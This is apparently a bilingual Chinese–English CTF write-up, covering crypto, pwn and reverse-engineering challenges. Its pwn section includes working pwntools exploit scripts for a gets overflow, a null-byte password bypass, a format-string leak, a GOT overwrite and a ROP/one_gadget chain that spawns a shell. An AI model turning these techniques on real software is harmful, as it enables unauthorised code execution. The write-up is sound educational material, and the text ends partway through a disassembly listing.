## Crypto

### SNAKE

把拆開來看大概經過了下面的步驟  
The process can roughly be broken down into the following steps:

- 轉成二進位的字串  
  Convert to a binary string
- 遍歷nibble(四個bit稱nibble)  
  Iterate over the nibble (a nibble consists of four bits)
- 把nibble轉成數字  
  Convert the nibble to a number
- 用這個數字當index去存取一個字母表  
  Use this number as an index to access a character set

這就是一個hex encode，把剛剛那個字母表取代為hex用到的字母表就好了  
This is a hex encoding, just replace the previous character set with the one used in hex encoding.

```python
a = "!@#$%^&*(){}[]:;"
b = "0123456789abcdef"

C = open('output.txt').read()

for i in range(16):
    C = C.replace(a[i], b[i])

print(bytes.fromhex(C))
```

### Twins

這題是孿生質數(twin prime)相乘  
$ N = p \cdot (p + 2) $  
因為:  
$ (p + 1)^2 = p^2 + 2p + 1 $  
所以:  
$ p^2 < N < (p + 1)^2$  
$ p < \sqrt{N} < p+1$  
由以上推導(其實也可以不用知道)，$\sqrt{N}$會非常接近$p$  
有$p$就可以分解$N$了  

---

This problem is about the multiplication of twin primes.  
$ N = p \cdot (p + 2) $  
Because:  
$ (p + 1)^2 = p^2 + 2p + 1 $  
Therefore:  
$ p^2 < N < (p + 1)^2$  
$ p < \sqrt{N} < p+1$  
From the above, we can deduce (though not necessarily need to know this), that $\sqrt{N}$ is very close to $p$.  
Once we have $p$, we can factor $N$.

```python
from Crypto.Util.number import *
import gmpy2

N = 28265512785148668054687043164424479693022518403222612488086445701689124273153696780242227509530772578907204832839238806308349909883785833919803783017981782039457779890719524768882538916689390586069021017913449495843389734501636869534811161705302909526091341688003633952946690251723141803504236229676764434381120627728396492933432532477394686210236237307487092128430901017076078672141054391434391221235250617521040574175917928908260464932759768756492640542972712185979573153310617473732689834823878693765091574573705645787115368785993218863613417526550074647279387964173517578542035975778346299436470983976879797185599
e = 65537
C = 1234497647123308288391904075072934244007064896189041550178095227267495162612272877152882163571742252626259268589864910102423177510178752163223221459996160714504197888681222151502228992956903455786043319950053003932870663183361471018529120546317847198631213528937107950028181726193828290348098644533807726842037434372156999629613421312700151522193494400679327751356663646285177221717760901491000675090133898733612124353359435310509848314232331322850131928967606142771511767840453196223470254391920898879115092727661362178200356905669261193273062761808763579835188897788790062331610502780912517243068724827958000057923

p = gmpy2.isqrt(N)
q = p + 2

assert p * q == N

phi = (p - 1) * (q - 1)
d = pow(e, -1, phi)
m = pow(C, d, N)
print(long_to_bytes(m))
```

### speeded block cipher

標題詐騙，其實是stream cipher  
The title is misleading; it’s actually a stream cipher.

#### Analysis of the Encryption

```python
def main():
    encrypted_flag = encrypt(pad(FLAG)).hex()
    print(f"Here is your encrypted flag: {encrypted_flag}")
    while True:
        plaintext = input("encrypt(hex) > ")
        plaintext = bytes.fromhex(plaintext)
        ciphertext = encrypt(pad(plaintext)).hex()
        print(f"ciphertext: {ciphertext})
```

把pad過後的`FLAG`先丟進去加密  
接下來有無數次加密  
First, pad the `FLAG` and then encrypt it.  
After that, there are countless encryptions.

```python
def encrypt(plaintext: bytes) -> bytes:
    PS = len(plaintext) // 16
    P = [plaintext[i: i + 16] for i in range(0, PS * 16, 16)]
    K = expand_key([IV, KEY], PS)
    C = []
    for i, B in enumerate(P):
        C.append(add(B, K[i]))
    return b"".join(C)
```

看一下encrypt()

- `plaintext`切塊成`P`(16 byte)
- `PS`是塊的數量
- 生成`K`
- 把每個`add(P[i], K[i])`合併成密文

---
Look at the `encrypt()` function:

- Split the `plaintext` into `P` (16 bytes).
- `PS` is the number of blocks.
- Generate `K`.
- Combine each `add(P[i], K[i])` to form the ciphertext.


```python
def shift_rows(B: list):
    M = [B[i: i + 4] for i in range(0, 16, 4)]
    M[0][1], M[1][1], M[2][1], M[3][1] = M[1][1], M[2][1], M[3][1], M[0][1]
    M[0][2], M[1][2], M[2][2], M[3][2] = M[2][2], M[3][2], M[0][2], M[1][2]
    M[0][3], M[1][3], M[2][3], M[3][3] = M[3][3], M[0][3], M[1][3], M[2][3]
    return bytes(M[0] + M[1] + M[2] + M[3])

def expand_key(K, PS):
    for i in range(PS - 1):
        NK = [(~(x + y)) & 0xFF for x, y in zip(K[i], K[i + 1])]
        NK = [(x >> 4) | (x << 4) & 0xFF for x in NK]
        NK = shift_rows(NK)
        K.append(NK)
    return K[1:]
```

`K`是這個cipher的keystream  
`K` is the keystream of this cipher.  

```python
def add(a: bytes, b: bytes) -> bytes:
    return bytes([((x + 1) ^ y) & 0xff for x, y in zip(a, b)])
```

#### sol

分析add()

- 把`a`每個byte+1再xor`b`

可以發現每次加密的keystream都會一樣，是因為的`key`和`nonce(我這邊取名叫IV)`重複使用  
所以生成的keystream會是一樣的  
剛剛分析過`add`，我們可以透過傳送`\xff` * n來獲得長度`n`的keystream  

---

Analysis of the `add()` Function

- Increment each byte of `a` by 1, and xor it with `b`

It can be observed that the keystream generated during each encryption is always the same because the `key` and `nonce` (which I call `IV` here) are reused.  
Thus, the generated keystream will be the same.  
Having analyzed the `add` function earlier, we can obtain a keystream of length `n` by sending `\xff` * n.


```python
from pwn import *
r = remote("chal.ctf.scint.org", 12001)

r.recvuntil(b"Here is your encrypted flag: ")
ciphertext = r.recvline().strip().decode()

print(ciphertext)
r.sendlineafter(b'encrypt(hex) > ', b'F' * len(ciphertext))
r.recvuntil(b'ciphertext: ')
key = r.recvline().strip().decode()
key = bytes.fromhex(key)
ciphertext = bytes.fromhex(ciphertext)
plain_1 = xor(key, ciphertext)

print(bytes([(x - 1) % 256 for x in plain_1]))
```

### Yoshino's Secret

我們想把`b'{"admin":false,"id":"TomotakeYoshino"}'`改成`b'{"admin":true,"id":"TomotakeYoshino"}'`  

AES CBC模式+已知IV+可控IV，我們可以透過`bit flipping`在不破壞明文結構的情況下竄改部分內容  

payload:  
$P_i$是第$i$個明文塊  
$C_i$是第$i$個密文塊  
$P_{ifake}$是我們希望竄改的第$i$個明文塊  
$IV \oplus P_1 \oplus P_{1fake}||C_1||C_2||...||C_n$  

---

We want to change `b'{"admin":false,"id":"TomotakeYoshino"}'` to `b'{"admin":true,"id":"TomotakeYoshino"}'`.

In AES CBC mode with a known IV and controllable IV, we can use bit flipping to modify part of the content without breaking the plaintext structure.

Payload:
$P_i$ is the $i$-th plaintext block  
$C_i$ is the $i$-th ciphertext block  
$P_{ifake}$ is the $i$-th modified plaintext block we want  
$IV \oplus P_1 \oplus P_{1fake} || C_1 || C_2 || ... || C_n$


```python
from pwn import *
io = remote("chal.ctf.scint.org", 12002)
io.recvuntil("token: ")
token = bytes.fromhex(io.recvline().strip().decode())
iv = token[:16]
cipher = token[16:]
iv = xor(b"{\"admin\":false,\"", iv, b"{\"admin\":true ,\"")
print(len(iv))
io.sendline((iv + cipher).hex().encode())
io.interactive()
```

### Proactive Planning

問題:

$$$$$$
\left\{
\begin{aligned}
C_1 \equiv m^e \pmod{p} \\
C_2 \equiv m^e \pmod{q}
\end{aligned}
\right.
$$$$$$

可以透過`中國餘數定理`來獲得:  
$x \equiv m^e \pmod{pq}$  
因為$m^e < N$  
所以可以開根號獲得$m$  

$N$是平滑數，可以用`Pollard's p − 1 algorithm`分解

---

Problem:
$$$$$$
\left\{
\begin{aligned}
C_1 &\equiv m^e \pmod{p} \\
C_2 &\equiv m^e \pmod{q}
\end{aligned}
\right.
$$$$$$
We can use the `**`Chinese Remainder Theorem`**` to obtain:
$$
x \equiv m^e \pmod{pq}
$$
Since $m^e < N$, we can take the square root to find $m$.

$N$ is a smooth number, and we can use `Pollard's p − 1 algorithm` to factor it.


```python
from functools import reduce
from Crypto.Util.number import *
import gmpy2

N = 245420687480030910293131014681513097316897805860015907997290238793037908061889321970643067747599071632004876697443892740373461832739897404992824039705666859978685676148256731481249619240551600688298823327813334982026265819211162436599172552911207622820925395779431967038741077978296032479504244355879076453277839429545428814902805521915851958370011985365075951876093117572939169114186231535255600467275910045372664823195201131313527121300982333739031725446282902152339315042184197622728983863008210927860642758785909138094209306401823250950926284525837770539470052437688590958247465743249015240761650092149407846622211263071037972525183724098938285521476262814934333028607057009674482959012439713961806522389998648832738221606988997592254025463923056643491555337751576246212477882961978575063306242120071365998703341290638505057206765318294021015227372445846979566876416540849080721228851969658123571699007157401963955407592209580070811271329855359365939200000000000000000000000000000000000000000000000000000000000001
e = 16
C = (439231781791682053787800004789500090515405069827267575310144126412212073183656886443512317513437473988568312910849382831051282684866166595013378449246972680452849180695018251047606404399499477181963259998873867440078915470666285294221911483418402164843781527921484550804953154534529236021532462370697370102805338053891442902369171104271440920515546754256339545640481851380162960169019944927911544549873309962781026864701346082115190565271316812955086674541362687313443721995481784918571627855813953908700661871, 45410653305386550806460293366683163840683840887693958374757667150684575232478721464002571675632111383800324454952726849708032360360624723016258879665846393001487751401561000041560174839749619393896575704973412066318065208130082079245493618249592605498133955508921363368248057347635043808420720293553618262120872986948419118763039316625791521751697579251125903615079781604221702413469589144193751155342922907250225850266858411329191983637433918466243662523860234353921039582601873103221279579701559507155136)

def crt(N: tuple, C: tuple):
    sum = 0
    prod = reduce(lambda a, b: a * b, N)
    for n, c in zip(N, C):
        r = prod // n
        sum += c * pow(r, -1, n) * r
    return int(sum % prod)

# https://github.com/killua4564/Crypto-pyfile/blob/main/factorization.py

def pollard(n: int) -> int:
    a, b = 2, 2
    while True:
        a = pow(a, b, n)
        p = GCD(a - 1, n)
        if 1 < p < n:
            return p
        b += 1

p = pollard(N)
q = N // p

m_16 = crt(N=(p,q), C=C)
print(long_to_bytes(gmpy2.iroot(m_16,e)[0] ))

m_16 = crt(N=(q,p), C=C)
print(long_to_bytes(gmpy2.iroot(m_16,e)[0] ))
```

## Pwn

### Money overflow

~~解法寫在標題上，我人太好了吧~~

```c
struct
{
    int id;
    char name[20];
    unsigned short money;
} customer;
```

弱點在  
The vulnerability:

```c
gets(customer.name);
```

不會限制輸入大小  
There is no input size limitation.

```python
from pwn import *

r = remote('chal.ctf.scint.org', 10001)
r.sendlineafter(b'Enter your name: ', b'a'*20 + pack(65535, 16))
r.sendlineafter(b'Buy > ', b'5')
r.interactive()
```

### Insecure Shell

```c
if (check_password(password, buf, strlen(buf)))
        printf("Wrong password!\n");
    else
        system("/bin/sh");
```

```c
int check_password(char *a, char *b, int length)
{
    for (int i = 0; i < length; i++)
        if (a[i] != b[i])
            return 1;
    return 0;
}
```

check_password會以字串長度當作判斷依據  
> 弱點:`strlen`會把`\x00`判定為字串結尾

所以送出`\x00`就可以getshell了

---

The `check_password` function uses the string length as the criteria for judgment.  
> Vulnerability: `strlen` treats `\x00` as the end of the string.  

Therefore, sending `\x00` can lead to getting shell access.

```python
from pwn import *

r = remote("chal.ctf.scint.org", 10004)


r.sendline(b"\x00")

r.interactive()
```

### Once

字串`secret`被存在stack上，我們要想辦法leak出他  
The string `secret` is stored on the stack. We need to figure out a way to leak it out.


```c
while (1)
    {
        printf("guess >");
        scanf("%15s", buf);
        getchar();

        printf("Your guess: ");
        printf(buf);
        printf("\n");

        printf("Are you sure? [y/n] >");
        scanf("%1c", &is_sure);
        getchar();
        if (is_sure == 'y')
        {
            if (!strcmp(buf, secret))
            {
                printf("Correct answer!\n");
                system("/bin/sh");
            }
            else
            {
                printf("Incorrect answer\n");
                printf("Correct answer is %s\n", secret);
                break;
            }
        }
    }
```

這邊有一個無限loop可以讓我們確認輸入的資訊，但問題就出在這上面  
There is an infinite loop here that allows us to confirm the input information, but the issue lies in this part.

```c
printf("Your guess: ");
printf(buf);
```

這邊就給了一個format string bug  
我們可以透過`%?$p`來以指標形式(8 bytes的十六進位)印出第?個參數  
根據linux x64 calling convention  
stack的值會從6開始

Here, we have a format string bug.  
We can use `%?$p` to print the ?-th parameter as a pointer (8 bytes in hexadecimal).  
According to the Linux x64 calling convention, the values on the stack start from index 6.



我們要取`secret`位於`rsp + 0x10`、`rsp + 0x18`
所以可以用`%8$p`和`%9$p`來得到`secret`


We want to get `secret` located at `rsp + 0x10` and `rsp + 0x18`.  
So, we can use `%8$p` and `%9$p` to retrieve `secret`.


```python
from pwn import *

r = remote("chal.ctf.scint.org", 10002)

secret = b""

r.sendlineafter(b"guess >", b"%8$p")
r.recvuntil(b"Your guess: ")
rec = r.recvline().strip()
secret += pack(int(rec, 16), 64)
r.sendlineafter(b"Are you sure? [y/n] >", b"n")

r.sendlineafter(b"guess >", b"%9$p")
r.recvuntil(b"Your guess: ")
rec = r.recvline().strip()
secret += pack(int(rec, 16), 64)
r.sendlineafter(b"Are you sure? [y/n] >", b"n")

print(f"secret: {secret}")

r.sendlineafter(b"guess >", secret[:15])
r.sendlineafter(b"Are you sure? [y/n] >", b"y")

r.interactive()
```

### bank clerk

It got unintended:(

```c
int accounts[100];
```

`accounts`位於全域變數  
`accounts` is located in global variables.


```c
scanf("%d", &id);
if (choice == 1)
    deposit(id);
else if (choice == 2)
    withdraw(id);
```

```c
void deposit(int id)
{
    unsigned int amount;
    printf("Enter the amount to deposit> ");
    scanf("%u", &amount);
    accounts[id] += amount;
    printf("Deposited %u$ to account %d\n", amount, id);
}

void withdraw(int id)
{
    unsigned int amount;
    printf("Enter the amount to withdraw> ");
    scanf("%u", &amount);
    if (amount > accounts[id])
    {
        printf("ERROR! Current balance: %u\n", accounts[id]);
        sleep(1);
    }
    else
    {
        accounts[id] -= amount;
        printf("Withdrew %u$ from account %d\n", amount, id);
    }
}
```

發現有 `oob read/write`  
Discovered `out-of-bounds read/write`


#### 找offset

```c
void withdraw(int id)
{
    ...
    if (amount > accounts[id])
    {
        printf("ERROR! Current balance: %u\n", accounts[id]);
        sleep(1);
    }
    ...
}
```

這段允許我們oob read，只要給的值夠大  
This part allows us to perform out-of-bounds read, as long as the given value is large enough  


接下來我們要嘗試leak出`backdoor()`的address，可以看附近有什麼東西可以用  
我這邊選`data段+0x58`

Next, we want to try leaking the address of `backdoor()`, and check if there's anything nearby we can use  
Here, I chose `data segment + 0x58`

#### 改got



got jump slot是`rw`  
我們可以嘗試竄改jump slot來跳到`backdoor()`

The GOT jump slot is `rw`,  
so we can try to overwrite the jump slot to redirect execution to `backdoor()`.


```c
void deposit(int id)
{
    ...
    scanf("%u", &amount);
    accounts[id] += amount;
    ...
}
```

這個函數允許我們把`account[id]`改成任意值
我們需要修改兩次才能把選定的jump slot改到我們想要的地址  
所以選擇我選擇改`sleep`


This function allows us to modify `account[id]` to any value.  
We need to modify it twice to fully overwrite the chosen jump slot to our desired address.  
So, I chose to overwrite `sleep`.


```python
from pwn import *


r = remote('chal.ctf.scint.org', 10003)


def add(addr, value):
    r.sendlineafter(b"Your choice> ", b"1")
    r.sendlineafter(b"id> ", str(addr).encode())
    r.sendlineafter(b"Enter the amount to deposit> ", str(value).encode())


def leak(addr):
    r.sendlineafter(b"Your choice> ", b"2")
    r.sendlineafter(b"id> ", str(addr).encode())
    r.sendlineafter(b"Enter the amount to withdraw> ", str(0xffffffff).encode())
    return int(r.recvline().strip().split(b": ")[-1])

dso_handle_addr_h = leak(-9)
dso_handle_addr_l = leak(-10)

dso_handle_addr = (dso_handle_addr_h << 0x20) | dso_handle_addr_l
backdoor_addr = dso_handle_addr - 0x4058 + 0x1250

print(f"backdoor_addr: {hex(backdoor_addr)}")

backdoor_addr_h = backdoor_addr >> 0x20
backdoor_addr_l = backdoor_addr & 0xffffffff

sleep_addr_h = leak(-13)
sleep_addr_l = leak(-14)

diff_h = (backdoor_addr_h - sleep_addr_h) & 0xffffffff
diff_l = (backdoor_addr_l - sleep_addr_l) & 0xffffffff

sleep_addr = (sleep_addr_h << 0x20) | sleep_addr_l

print(f"sleep_addr: {hex(sleep_addr)}")

add(-14, diff_l)
add(-13, diff_h)
leak(0)

r.interactive()
```

#### unintend solve


在第一次呼叫前jump slot裡面的address就都已經是binary的pie base了  
只要算offset加上去就好了  


Before the first call, the addresses in the jump slots are already filled with the binary's PIE base.  
So we just need to calculate the offset and add it to the base.


### Painter

我這題打造了一個類似stack的操作來存放資料，但沒限制可使用的範圍  
I built a stack-like structure to store data in this challenge,  
but there is no restriction on the accessible range.


我們可以透過`new` 到超過 collection[] 大小來做oob read/write(對，又是oob)
在stack上面read/write可以很直覺的聯想到蓋一個rop + one_gadget就可以RCE了

---

We can use `new` to exceed the size of `collection[]`, allowing out-of-bounds (oob) read/write access (yes, it's oob again).  
Reading/writing on the stack naturally leads to the idea of crafting a ROP chain + `one_gadget` to achieve RCE.


```python
from pwn import *

io = remote('chal.ctf.scint.org', 10006)

# context.arch = "amd64"
# context.terminal = ['tmux', 'splitw', '-h']
# gdb.attach(io)

libc = ELF('./libc.so.6')


for _ in range(7):
    io.sendlineafter(b'> ', b'1');
    io.sendlineafter(b'> ', b'2');

io.sendlineafter(b'> ', b'3')
io.recvline()

data = io.recvlines(8)
data = [unpack(x[1:9], 64) for x in data];

canary = data[5]
__libc_start_main_128 = data[7]
libc_base = __libc_start_main_128 - libc.symbols['__libc_start_main'] - 128
writable_buffer = libc_base - 0x500


print(f"libc base: {hex(libc_base)}")
print(f"canary: {hex(canary)}")

'''
0xebc88 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
'''

'''
0x00000000000904a9 : pop rdx ; pop rbx ; ret
0x000000000002be51 : pop rsi ; ret
'''

pop_rdx_pop_rbx_ret = 0x00000000000904a9 + libc_base
pop_rsi_ret = 0x000000000002be51 + libc_base
one_gadget = 0xebc88 + libc_base

paint_1 = [
    b'a'*8,
    p64(canary),
    p64(writable_buffer),
    p64(pop_rdx_pop_rbx_ret),
    p64(0),
    p64(0),
    p64(pop_rsi_ret),
    p64(0),
]

paint_2 = [
    p64(one_gadget)
] + [p64(0)] * 7

io.sendlineafter(b'> ', b'2')
io.sendlineafter(b'> ', b'2')
io.sendlineafter(b'> ', b'2')

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b'> ', b'1')
for l in paint_1:
    io.sendline(l)
io.sendlineafter(b'> ', b'2')

io.sendlineafter(b'> ', b'1')
io.sendlineafter(b'> ', b'1')
for l in paint_2:
    io.sendline(l)
io.sendlineafter(b'> ', b'2')

io.sendlineafter(b'> ', b'4')
io.interactive()
```

## Reverse

### 西

複習一下gcc編譯器的過程  

preprocess -> compile -> assemble -> link  

其中，preprocess可以把#開頭的東西展開  
你可以用`gcc -E`來preprocess你的source code

---

Review the compilation process of the GCC compiler:

preprocess -> compile -> assemble -> link

Among these steps, the `preprocess` stage expands everything starting with `#`.  
You can use `gcc -E` to preprocess your source code.


```bash
gcc -E chal.c -o chal.s  
```

```c
# 0 "chal.c"
# 0 "<built-in>"
# 0 "<command-line>"

...(skipped)

# 539 "/usr/include/string.h" 3 4

# 4 "chal.c" 2
# 25 "chal.c"

# 25 "chal.c"
char enrypted_flag[] = "\xa1\xbd\xbf\xb6\xb6\x8e\xa1\x9d\xc4\x86\xaa\xc4\xa6\xaa\x9b\xc5\xa1\xaa\x9a\x97\x93\xa0\xd1\x96\xb5\xa1\xc4\xba\x9b\x88";

void decrypt(int n)
{
    for (int i = 0; i < n; i ++)
    {
        enrypted_flag[i] ^= 0xF5;
    }
}

int main()
{
    if (0)
    {
        decrypt(strlen(enrypted_flag));
    }

    printf("%s", enrypted_flag);
}
```

把0改成1即可  
Simply change 0 to 1.


### flag checker

這題如果不用AI打的話，應該有一點難度  
This challenge would definitely be a bit difficult without AI's assistance.



把每個`s[i]`ROR`i`個bit  
Rotate each `s[i]` by `i` bits using a right rotation (ROR).



他把陣列拆成20組，每組3個判斷式來判斷  
這邊可以簡單用聯立表達  
He splits the array into 20 groups, with each group having 3 conditions for evaluation. This can be simply expressed using a system of equations.

$$
\left\{
\begin{aligned}
S_{i} + S_{i + 1} = k_{i}  \\
S_{i + 1} + S_{i + 2} = k_{i+1}  \\
S_{i} + S_{i + 2} = k_{i+2}  \\
\end{aligned}
\right.
$$

#### sol

$$ 2(S_{i} + S_{i + 1} + S_{i + 2}) = k_{i} + k_{i+1} + k_{i+2} $$
$$ \Rightarrow $$
$$ S_{i} = \frac{k_{i} + k_{i+1} + k_{i+2}}{2} - (S_{i + 1} + S_{i + 2}) $$
$$ S_{i + 1} = \frac{k_{i} + k_{i+1} + k_{i+2}}{2} - (S_{i} + S_{i + 2}) $$
$$ S_{i + 2} = \frac{k_{i} + k_{i+1} + k_{i+2}}{2} - (S_{i} + S_{i + 1}) $$

```python
data = [250, 197, 129, 80, 155, 117, 114, 109, 165, 181, 256, 209, 369, 449, 352, 315, 355, 418, 247, 359, 388, 341, 372, 289, 209, 141, 128, 385, 372, 477, 80, 0, 80]
data_convert = []

for i in range(0, len(data), 3):
    ab, bc, ca = data[i], data[i + 1], data[i + 2]
    abc = (ab + bc + ca) // 2
    data_convert.append(abc - bc)
    data_convert.append(abc - ca)
    data_convert.append(abc - ab)  


for i in range(len(data)):
    t = (8 - i) % 8
    x = data_convert[i] ^ 0xf
    d = (((x << (t & 7)) | (x >> (-t & 7))) & 0xff) 
    print(chr(d), end="")
```

### noodle


首先expand這邊會把字串展開成bit  
First, the expand part will expand the string into bits.

然後swap bits  
Then, swap the bits.

最後壓縮起來  
Finally, compress it back.

#### sol

因為是交換同byte裡面的bit，所以可以暴力搜尋  
Since the bits within the same byte are swapped, a brute force search can be used.


```python
import string
cipher = "2a48589898decafcaefa98087cfa58ae9e2afa1c1aaa2e96fa38061a9ca8fa182ebeee"
cipher = bytes.fromhex(cipher)

cnt = 0
alpha = string.printable
enc_alpha = "0686169626a636b646c68c1c9c2cac3cbc4ccc5cdc6cec7cfc0e8e1e9e2eae3ebe4ece5e88189828a838b848c858d868e878f80a8a1a9a2aaa3aba4aca5a84149424a434b444c454d464e474f456d666e676f608da6aea7afa0cde6eee7e"

dec = {a:b for a, b in zip(bytes.fromhex(enc_alpha), alpha)}


print("".join(dec[ch] for ch in cipher))
```

#### sol2

這個binary的encryption用的是involutory cipher，把密文丟回去就可以拿到明文了  
This binary encryption uses an involutory cipher, meaning that by putting the ciphertext back, you can retrieve the plaintext.


### empty



`sub_1060`被改成`rwx`  
然後被和`unk_4045`xor

`sub_1060` has been changed to `rwx` and then XORed with `unk_4045`.


```python
pwndbg> x/100i $pc
=> 0x555555555060:      endbr64
   0x555555555064:      push   rbp
   0x555555555065:      mov    rbp,rsp
   0x555555555068:      sub    rsp,0x30
   0x55555555506c:      mov    rax,QWORD PTR fs:0x28
